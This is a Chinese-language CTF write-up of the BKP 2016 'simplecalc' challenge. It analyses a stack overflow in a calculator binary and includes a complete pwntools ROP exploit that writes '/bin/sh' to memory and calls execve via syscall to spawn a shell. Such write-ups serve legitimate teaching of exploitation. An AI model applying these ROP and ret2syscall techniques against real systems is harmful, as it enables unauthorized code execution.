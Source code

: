 ```yaml
---
title: nightmare 2.9.Boston Key Part 2016 simplecalc-wp
date: 2023-08-14 08:44:24
tags:
- CTF
- pwn
- BKP2016
- nightmare
- stack 
- ret2syscall
categories:
- pwn-wp
---
```


[相关资源](https://github.com/guyinatuxedo/nightmare/tree/master/modules/07-bof_static/bkp16_simplecalc)  

## 文件分析

```python
$ checksec simplecalc
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```sh
$ ./simplecalc  
    |#------------------------------------#|
    |         Something Calculator         |
    |#------------------------------------#|

Expected number of calculations: 50
Options Menu:
 [1] Addition.
 [2] Subtraction.
 [3] Multiplication.
 [4] Division.
 [5] Save and Exit.
=> 1
Integer x: 1
Integer y: 1
Do you really need help calculating such small numbers?
Shame on you... Bye
```

## 代码分析
![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/08/14/BKP2016-simplecalc-wp/0x1.png?raw=true)  

1. 可以看到首先获取输入`v20`，然后进行`v20`次计算操作，计算结果存入数组`v21`中
2. 当选择选项5时，会将`v21`中的内容全部拷贝到`v18`中，明显此处存在栈溢出切溢出内容我们可以通过计算结果来控制

## 攻击方法
该文件是静态链接的，但是没有找到库函数`system`，并且开启了栈不可执行   
`ALT+T` 查找`syscall` 发现存在，则可以利用系统调用来实现攻击    
`rdi -> '/bin/sh'字符串指针`   
`rsi -> 0`  
`rdx -> 0`  
`rax -> 0x3b`   

1. 由`ROPgadget`我们可以获取到可用pop指令地址
2. 需要将'/bin/sh'写入到数据段中（写在栈上不知道地址，数据段地址固定）  
    * `ROPgadget --binary simplecalc --only "mov|ret"`
    * 刚好有 `0x0000000000400aba : mov qword ptr [rdi], rdx ; ret`
    * 则只要构造pop链将目标地址置入`rdi`，将'/bin/sh'置入`rdx`再调用即可
3. 最后构造pop链执行`syscall`  

## exp
```python
from pwn import *
import sys

context(os='linux', log_level='debug')

mode = ''
if len(sys.argv) > 1:
    mode = sys.argv[1]

proc = process("./simplecalc")

def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(): return proc.recv()
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))

def addSingle(x):
	proc.recvuntil("=> ")
	proc.sendline("1")
	proc.recvuntil("Integer x: ")
	proc.sendline("100")
	proc.recvuntil("Integer y: ")
	proc.sendline(str(x - 100))  # 注意代码要求任意参与运算的数字都要大于0x27


def add(z): 
    # 注意数组中每个位置为int(dword型)，
    # 64位栈内基本块为qword，因此要分高低32位分别存入
	x = z & 0xffffffff
	y = ((z & 0xffffffff00000000) >> 32) 
	addSingle(x)
	addSingle(y)

gscript = '''
    b main
    b * 0x401545
    c
'''
if mode == '-d':
    gdb.attach(proc, gdbscript=gscript)

rax_ret = 0x44db34
rdx_ret = 0x437a85
rdi_ret = 0x401b73
rsi_ret = 0x401c87
syscall = 0x400488
dest = 0x6C4480
mv_rdx2_prdi = 0x400aba


# rdi_ret + dest + rdx_ret + b'/bin/sh\x00' + mv_rdx2_prdi
# rsi_ret + p64(0) + rdx_ret + p64(0) + rax_ret + p64(0x3b) + syscall
sla(b'calculations: ', b'100')
for i in range(9):
    # 填满当前栈空间，注意填到v21时最好填0，
    # 因为代码会对v21进行free操作，填其他的可能触发段错误
    add(0)       

add(rdi_ret)  
add(dest)
add(rdx_ret)
add(0x0068732f6e69622f)   # /bin/sh

add(mv_rdx2_prdi)
add(rsi_ret)
add(0)
add(rdx_ret)
add(0)
add(rax_ret)
add(0x3b)
add(syscall)

sla(b'=> ', b'5')

pi()
pause()

```